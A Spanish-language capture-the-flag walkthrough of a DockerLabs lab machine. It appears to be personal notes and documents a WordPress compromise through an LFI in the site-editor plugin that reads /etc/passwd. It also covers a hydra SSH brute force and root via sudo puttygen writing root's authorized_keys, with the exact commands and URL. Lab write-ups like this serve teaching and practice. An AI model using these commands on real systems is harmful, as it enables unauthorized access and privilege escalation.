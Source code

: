 nmap: 22,80

![image](https://github.com/user-attachments/assets/8504499b-9655-431e-a40f-ea0959b954cf)


---
en la pagina principal podemos ver que es de wordpress:

![image](https://github.com/user-attachments/assets/f9cd8200-a10f-4ea9-97fa-bde2654899cb)

en la pagina encontramos un usuario: Annie Steiner (directora general)

como sabemos que es un wordpress podemos utilizar sus herramientas. hacemos un "wpscan":

    -  wpscan --url http://asucar.dl/ 

nos da una version de "site-editor 1.1"
![[wpscan.png]]

hacemos un searchsploit site-editor plugin, buscamos con:

      - searchsploit -x php/webapps/44340.txt  
      
nos da:
> site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php

buscamos sobre el exploit: https://www.exploit-db.com/exploits/44340
![[exploit 1.png]]

y encontré que si en la barra de búsqueda colocamos: http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![[vulnerabilidad 1.png]]

y nos dio el contenido de "/etc/passwd" 

vemos que tenemos el usuario "*curiosito*"

hacemos un ataque de fuerza bruta:

         -hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

y nos dio: password1
![[dockerlabs/medio/asucar/fuerza bruta.png]]
entramos por el ssh

al hacer "sudo -l" nos aparece "puttygen" que es un comando para generar claves privadas como publicas.

![[sudo -l.png]]

y encontré que tenemos permisos root generamos una clave primero:

      -  puttygen -t rsa -b 2048 -o rootAccess.ppk

![[clave privada1.png]]
se puede dejar sin contraseña o con contraseña
lo pasamos una clave publica:
    
      - sudo puttygen rootAccess.ppk -O public-openssh -o /root/.ssh/authorized_keys
    
 ahora una privada:
   
    - puttygen rootAccess.ppk -O private-openssh -o privateRootAccess.ppk

en nuestra terminal colocamos:

      - scp curiosito@172.17.0.2:/home/curiosito/privateRootAccess.ppk . 

para pasarnos la clave privada.
![[privada2.png]]

 ya pasado hacemos un:
        
    - ssh root@172.17.0.2 -i privateRootAccess.ppk 

![[dockerlabs/medio/asucar/root.png]]

colocamos la contraseña que colocamos y somos root! 
